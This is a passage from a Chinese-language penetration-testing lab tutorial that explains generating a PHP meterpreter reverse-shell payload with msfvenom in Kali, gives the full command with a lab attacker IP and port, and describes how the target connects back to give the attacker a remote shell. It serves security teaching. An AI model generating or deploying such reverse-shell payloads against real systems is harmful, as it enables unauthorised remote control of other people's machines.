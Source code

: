 
### 4.3 攻击准备

启动环境之后我们便需要生成我们的攻击脚本了，在上一步中我们是提供了一个 php 的反弹 shell 脚本给大家，但是这样的脚本在不了解 php 的情况下，或者找不到类似的脚本的情况下就没办法了。

在 metasploit 为大家提供了一个 msfvenom 的工具，该工具就是利用现有的某块生成木马程序，在 2015 年 8 月之后便用该工具来替代 msfencoder 和 msfpayload。

有了它我们便可不用去熟悉 php、自己手写木马脚本了。

在 Kali 中我们使用该命令来生成木马程序：

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.122.101 LPORT=1111 R > reverse_shell.php
```

在使用 msfvenom 的时候，必须使用 `-p` 参数来生成我们的攻击脚本，该参数的全程也就是 payload。后面紧接着就是使用的模块 reverser_tcp，该脚本属于 php 的攻击脚本，所以在 php/meterpreter 的路径中。`LHOST` 的参数设置的是 kali 本地 IP 地址，因为我们是使用的本地 msfconsole 来建立连接，当然若是我们的 MSF 在其他主机上我们同样可以填写其他的 IP 地址。`LPORT` 是本地主机中一个未被占用的空闲端口。`R >reverse_shell.php` 是将生成好的文本内容重定向输出到 reverse_shell.php 中，该文件若是不存在会自动生成。

该攻击的脚本原理很简单，就是通过让目标主机执行该脚本，通过该脚本向我们的主机发起连接请求，于此同时被我们监听该端口的程序捕捉到，然后便成功的建立连接，然后便远程登陆到 shell 中，就像 ssh 与 telnet 一般。

```
cd /var/www/html
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.122.101 LPORT=1111 R > reverse_shell.php
```

生成该脚本需要一定的时间，大概在 3-5 分钟左右，请大家耐心等待，若是有这样的信息输出表示成功：

![generate_payload](../imgs/wm_70.png)

在当前的目录中我们可以看到这个文件的存在：

![show_generate_php](../imgs/wm_71.png)

生成的脚本我们可以通过 `vim reverse_shell.php` 来查看一下生成的脚本：
